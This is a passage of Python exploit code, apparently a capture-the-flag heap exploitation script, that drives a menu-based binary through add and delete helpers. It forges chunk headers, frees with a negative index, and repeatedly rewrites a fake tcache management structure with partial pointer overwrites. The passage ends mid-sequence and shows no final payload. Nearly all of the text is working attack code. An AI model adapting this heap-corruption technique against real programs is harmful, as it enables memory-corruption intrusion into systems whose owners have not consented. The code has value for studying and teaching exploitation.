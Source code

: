 ```Apache

def add(sz,con):
    choice(1)
    sleep(0.1)
    sl(str(sz))
    sleep(0.1)
    sl(con)
    # sa("content?",cno)

def delete(idx):
        choice(2)
        sleep(0.1)
        sl(str(idx))


def exp():
        # debug([0x4013FD],0)
    add(0x90,p64(0)*3+p64(0x410))
    add(0x280,'a')
    
    for i in range(16):
        add(i*0x10+0xa0,(p64(0)+p64(0x4d1)+p64(0)+p64(0x21)+(p64(0)+p64(0x61))*((i*0x10+0x70)/0x10)))
    delete(-0x290)
    fake_t = p16(7)*8*3
    choice(2)
    add(0x280,fake_t)
        # for i in range(3):
                # add(i*0x10+0x30,p64(0)+p64(0x4c1)+p64(0)+p64(0x4a1))        
        # choice(2)
        # add(0xa0,'a')
    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*8+p8(0xe0)
    add(0x280,fake_t)
        # add(0x50,'a')
    add(0x90,'a')
        #---------------------------------------------
    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*10+p8(0xc0)
    add(0x280,fake_t)        
    add(0xb0,'a')

    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*11+p8(0x80)
    add(0x280,fake_t)        
    add(0xc0,'a')

    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*12+p8(0x50)
    add(0x280,fake_t)        
    add(0xd0,'a')

    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*13+p8(0x30)
    add(0x280,fake_t)        
    add(0xe0,'a')


    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*14+p8(0x20)
    add(0x280,fake_t)        
    add(0xf0,'a')

    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*15+p8(0x20)
    add(0x280,fake_t)        
    add(0x100,'a')

    fake_t = p16(7)*8*4+p16(1)*8*4+p64(0)*16+p8(0x30)
    add(0x280,fake_t)        
```